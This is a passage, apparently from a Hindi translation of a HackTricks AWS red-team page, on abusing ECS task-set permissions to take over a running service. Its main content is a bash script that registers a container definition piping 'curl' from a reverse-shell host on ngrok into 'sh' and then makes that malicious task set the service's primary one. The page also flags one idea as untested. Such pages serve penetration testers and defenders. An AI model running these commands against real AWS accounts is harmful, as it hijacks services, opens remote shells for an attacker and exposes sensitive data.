 ### `?ecs:RegisterContainerInstance`

TODO: क्या एक विभिन्न AWS खाते से एक इंस्टेंस को रजिस्टर करना संभव है ताकि टास्क अटैकर द्वारा नियंत्रित मशीनों पर चलाए जा सकें??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: इसे टेस्ट करें
{% endhint %}

अटैकर जिसके पास अनुमतियाँ `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, और `ecs:DescribeTaskSets` हैं, वह **मौजूदा ECS सेवा के लिए एक दुराचारी टास्क सेट बना सकता है और प्राइमरी टास्क सेट को अपडेट कर सकता है**। इससे अटैकर को **सेवा के अंदर विविध कोड को निष्पादित करने की अनुमति** मिलती है।
```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
"family": "malicious-task",
"containerDefinitions": [
{
"name": "malicious-container",
"image": "alpine",
"command": [
"sh",
"-c",
"apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
]
}
]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```
**संभावित प्रभाव**: प्रभावित सेवा में विचित्र कोड का क्रियान्वयन करें, जिससे उसके कार्यक्षमता पर प्रभाव पड़ सकता है या संवेदनशील डेटा को बाहर ले जाया जा सकता है।

## संदर्भ

* [https://ruse.tech/blogs/ecs-attack-methods](https://ruse.tech/blogs/ecs-attack-methods)

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
